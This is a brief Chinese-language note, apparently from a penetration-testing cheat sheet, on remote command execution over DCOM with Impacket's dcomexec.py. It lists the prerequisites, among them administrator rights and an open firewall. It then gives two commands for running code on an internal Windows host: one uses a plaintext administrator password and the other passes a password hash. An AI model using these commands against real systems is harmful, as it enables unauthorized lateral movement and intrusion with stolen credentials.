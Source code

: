 # Dcom
1.dcomexec-impacket
条件:
win7,win2008以上
管理员权限powershell
远程主机防火墙未阻止
```
dcomexec.py sqlserver/administrator:admin!@#45@192.168.130

dcomexec.py -hashes :(.....) sqlserver/administrator@192.168.130
```